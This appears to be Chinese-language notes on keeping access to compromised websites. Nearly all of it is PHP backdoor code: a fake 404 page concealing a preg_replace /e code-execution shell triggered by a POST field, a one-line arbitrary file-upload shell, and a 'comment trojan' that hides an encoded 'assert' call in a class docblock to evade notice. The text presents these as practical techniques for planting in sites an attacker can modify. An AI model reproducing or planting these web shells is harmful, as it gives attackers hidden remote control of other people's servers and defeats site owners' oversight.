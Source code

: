 

![image.png](./Web_权限维持.assets/2023_05_19_15_14_38_pqoDaJ3c.png)





## 构建漏洞页面
### 404页面、文件上传其他功能性页面
```php
404页面
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL was not found on this server.</p>
</body></html>
#构造代码执行
<?php
@preg_replace("/[pageerror]/e",$_POST['error'],"saft");
header('HTTP/1.1 404 Not Found');
?>
#文件上传
<?php if($_POST){if(@copy($_FILES["0"]["tmp_name"],$_FILES["0"]["name"])){echo"done";}else{echo"no";}}else{echo"<form method=post enctype=multipart/form-data><input type=file name=0><input name=0 type=submit value=submit>";}?>
```
### 注释马
适用于具有修改网站php文件权限的时候，非常好用的一个技巧
```php
<?php
/**
YXNzZXJ0YmZnZmc=
*/
class Example
{
public function fn(){}
}
#通过一个空的类去获取，
$reflector = new ReflectionClass('Example'); //这里为通过反射获取类的注释
$zhushi = substr(($reflector->getDocComment()), 7, 12);//然后去截断获取注释里的字符,注意getDocComment只能通过文件最开始的类来调用才会把注释内容显示
//echo $zhushi;
$zhushi = base64_decode($zhushi);
$zhushi = substr($zhushi, 0, 6);
echo $zhushi;
foreach (array('_POST','_GET') as $_request) {
    foreach ($$_request as $_key=>$_value) {
        $$_key=  $_value;
        print_r($$_request);
    }
```